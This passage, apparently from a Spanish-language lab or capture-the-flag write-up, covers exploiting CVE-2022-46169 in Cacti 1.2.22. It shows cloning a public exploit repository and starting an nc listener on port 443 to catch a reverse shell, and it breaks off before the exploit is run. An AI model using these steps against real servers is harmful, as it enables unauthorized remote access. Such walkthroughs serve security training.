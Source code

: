 <figure><img src="../../.gitbook/assets/imagen (383).png" alt=""><figcaption></figcaption></figure>

Nos descargaremos el siguiente repositorio de GitHub.

{% embed url="https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22" %}

```bash
❯ git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22; cd CVE-2022-46169-CACTI-1.2.22
Clonando en 'CVE-2022-46169-CACTI-1.2.22'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (18/18), done.
remote: Compressing objects: 100% (16/16), done.
remote: Total 18 (delta 4), reused 4 (delta 1), pack-reused 0 (from 0)
Recibiendo objetos: 100% (18/18), 5.07 KiB | 5.07 MiB/s, listo.
Resolviendo deltas: 100% (4/4), listo.
```

Nos ponemos en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos el exploit para proporcionarnos una Reverse Shell hacía el equipo vulnerable.
